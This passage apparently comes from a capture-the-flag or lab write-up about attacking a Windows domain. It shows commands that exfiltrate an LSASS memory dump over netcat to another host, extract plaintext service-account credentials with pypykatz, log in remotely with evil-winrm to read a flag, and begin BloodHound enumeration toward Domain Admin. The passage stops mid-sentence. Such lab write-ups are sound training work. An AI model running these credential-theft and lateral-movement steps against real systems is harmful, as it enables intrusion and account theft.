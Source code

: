 Transfer the dump:

```cmd
nc64.exe 172.16.7.240 7777 < C:\Windows\Temp\lsass.dmp
```

Parse with **pypykatz**:
```bash
pypykatz lsa minidump lsass.dmp
```

We extract plaintext credentials for a **service account** with **admin rights on MS01**.

![](screenshots/10.png)


### Reading the Final Flag on MS01

We connect using **evil-winrm**:

```bash
evil-winrm -i 172.16.7.50 -u <svc_account_name> -p <password>
```

Now we can read:

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```


### BloodHound Enumeration: Path to Domain Admin

To escalate to **Domain Admin**, we use **BloodHound**. First, we update DNS resolution:
